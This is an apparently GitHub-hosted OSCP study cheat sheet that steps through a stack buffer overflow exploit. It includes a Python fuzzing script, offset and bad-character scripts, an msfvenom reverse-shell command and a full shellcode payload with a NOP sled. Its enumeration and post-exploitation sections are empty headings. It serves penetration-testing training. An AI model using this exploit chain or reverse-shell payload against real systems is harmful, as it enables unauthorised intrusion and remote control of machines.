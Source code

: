 # OSCP_cheatsheet

# Summary
* [General](#General)
* [Buffer Overflow](#Buffer_Overflow)
* [Enumeration](#Enumeration)
* [Exploitation](#Exploitation)
* [Post_Exploitation](#Post_Exploitation)
    * [Local privilege escalation](#Local-privilege-escalation)
         * [Windows](#Windows)
         * [Linux](#Linux)
    * [Lateral Movement](#Lateral-Movement)
    
# General
#### COMMANDO EXAMPLE
```
<COMMANDO>
```
 
# Buffer overflow
To find and exploit a buffer overflow the following steps should be executed:
   1. **Spiking:** Find the vulnerable parameter
   2. **Fuzzing:** Get the amount of bytes the program crashes
   3. **Find the offset:** Get the amount of bytes to write to the EIP
   4. **Overwriting the EIP**
   5. **Find bad characters:** Run all hex characters through the program
   6. **Finding the right module:** Look for a ddl without memory protections
   7. **Generating shellcode:** To get a reverse shell or to run calc
   
Make sure you got immunity debugger + mona.py installed
   
#### Spiking
1. Take the commands/options/parameters one at a time and send a bunch of data to see if it crashes
2. Use `generic_send_tcp <HOST> <PORT> <SPIKE SCRIPT> 0 0` to send a spike script
```
#EXAMPLE SPIKE SCRIPT
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

#### Fuzzing
1. Get the amount of bytes it crashes the program, the following fuzzing script could be used:

```
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        print "Fuzzing App with %s bytes" % str(len(buffer))
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('<IP>',<PORT>))
                        
        s.send(('<COMMAND>' + buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    
    except:
        print "Fuzzing crashed at %s bytes" % str(len(buffer))
        sys.exit()
```

#### Find the offset
1.	Create a offset pattern.

```/usr/share/Metasploit-framework/tools/exploit/pattern_create.rb -l <length>```

```!mona pc <length>```

2.	Edit the script to add the offset pattern.

```
offset = "<OFFSET PATTERN>"

buffer = offset
```
3.	Send the offset pattern and get the EIP value out of the Immunity Debugger.
4. Get the amount of offset bytes.

```/usr/share/Metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <EIP VALUE>```

```!mona po <EIP VALUE>```

#### Overwriting the EIP
1. Edit the script, remove the offset variable. Then change the buffer to overwrite the buffer with 4 B's

```
buffer = "A" * <OFFSET BYTES> + "B" * 4
```

2. Execute the script and check if the EIP is overwritten with B's (42424242)

#### Find bad characters
1. Get a list of bad characters
https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
https://github.com/cytopia/badchars
2. Edit the script, change the buffer to send the bad characters

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "A" * <OFFSET BYTES> + "B" * 4 + badchars
```

3. Execute the script and right click the ESP, select follow in dump and check all the values to see if any character is missing. (Check the hex dump and look for missing/off hex characters)

#### Finding the right module
1. See all the module by executing `!mona modules` in the Immunity Debugger console.
2. Check all the protection settings (Rebase, SafeSEN, ASLR, NXCompat, OS dll)
3. Look for a vulnerable dll with all falses and write down the .dll
4. Find the upcode equivalant of a jump use `nasm_shell.rb`

```
JMP ESP 
output = \xff\xe4
```

5. Get the return adress `!mona find -s “\xff\xe4” -m <.dll file>`
6. Write down all the return adresses
7. Edit the buffer variable in the script with the return adress (Watch out for little andian for Windows) for the location where 4 * B for the EIP was.

```
buffer = "A" * 2003 +  "<RETURN\ESP ADRESS>"
buffer = "A" * 2003 +  "\xaf\x11\x50\x62" #LITTLE ANDIAN EXAMPLE WITH ADRESS 625011af
```

8. Click on the blue arrow in Immunity Debugger and enter the return adress, hit F2 to mark it blue and set a break point. Check the EIP value. If the EIP value == return/ESP adress we control the EIP

#### Generating shellcode
1. Generate shellcode with msfvenom (reverse shell)

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -a x86 -b “<BADCHARS>”
```

2. Add a payload variable to the script in parenthese()
3. Add the payload to the end of the buffer and insert NOPS in-between the return adress and payload

```
payload = (
"\xba\x9f\x88\x46\xeb\xda\xca\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x52\x31\x56\x12\x83\xee\xfc\x03\xc9\x86\xa4\x1e\x09\x7e\xaa"
"\xe1\xf1\x7f\xcb\x68\x14\x4e\xcb\x0f\x5d\xe1\xfb\x44\x33\x0e"
"\x77\x08\xa7\x85\xf5\x85\xc8\x2e\xb3\xf3\xe7\xaf\xe8\xc0\x66"
"\x2c\xf3\x14\x48\x0d\x3c\x69\x89\x4a\x21\x80\xdb\x03\x2d\x37"
"\xcb\x20\x7b\x84\x60\x7a\x6d\x8c\x95\xcb\x8c\xbd\x08\x47\xd7"
"\x1d\xab\x84\x63\x14\xb3\xc9\x4e\xee\x48\x39\x24\xf1\x98\x73"
"\xc5\x5e\xe5\xbb\x34\x9e\x22\x7b\xa7\xd5\x5a\x7f\x5a\xee\x99"
"\xfd\x80\x7b\x39\xa5\x43\xdb\xe5\x57\x87\xba\x6e\x5b\x6c\xc8"
"\x28\x78\x73\x1d\x43\x84\xf8\xa0\x83\x0c\xba\x86\x07\x54\x18"
"\xa6\x1e\x30\xcf\xd7\x40\x9b\xb0\x7d\x0b\x36\xa4\x0f\x56\x5f"
"\x09\x22\x68\x9f\x05\x35\x1b\xad\x8a\xed\xb3\x9d\x43\x28\x44"
"\xe1\x79\x8c\xda\x1c\x82\xed\xf3\xda\xd6\xbd\x6b\xca\x56\x56"
"\x6b\xf3\x82\xf9\x3b\x5b\x7d\xba\xeb\x1b\x2d\x52\xe1\x93\x12"
"\x42\x0a\x7e\x3b\xe9\xf1\xe9\x84\x46\xf9\x6e\x6c\x95\xf9\x71"
"\xd6\x10\x1f\x1b\x38\x75\x88\xb4\xa1\xdc\x42\x24\x2d\xcb\x2f"
"\x66\xa5\xf8\xd0\x29\x4e\x74\xc2\xde\xbe\xc3\xb8\x49\xc0\xf9"
"\xd4\x16\x53\x66\x24\x50\x48\x31\x73\x35\xbe\x48\x11\xab\x99"
"\xe2\x07\x36\x7f\xcc\x83\xed\xbc\xd3\x0a\x63\xf8\xf7\x1c\xbd"
"\x01\xbc\x48\x11\x54\x6a\x26\xd7\x0e\xdc\x90\x81\xfd\xb6\x74"
"\x57\xce\x08\x02\x58\x1b\xff\xea\xe9\xf2\x46\x15\xc5\x92\x4e"
"\x6e\x3b\x03\xb0\xa5\xff\x23\x53\x6f\x0a\xcc\xca\xfa\xb7\x91"
"\xec\xd1\xf4\xaf\x6e\xd3\x84\x4b\x6e\x96\x81\x10\x28\x4b\xf8"
"\x09\xdd\x6b\xaf\x2a\xf4")

buffer = "A" * 2003 + "<RETURN\ESP ADRESS>" + "\x90" * 32  + payload
```
 
# Enumeration
 
# Exploitation
 
# Post Exploitation
 
## Local privilege escalation
### Windows

### Linux
 
## Lateral movement
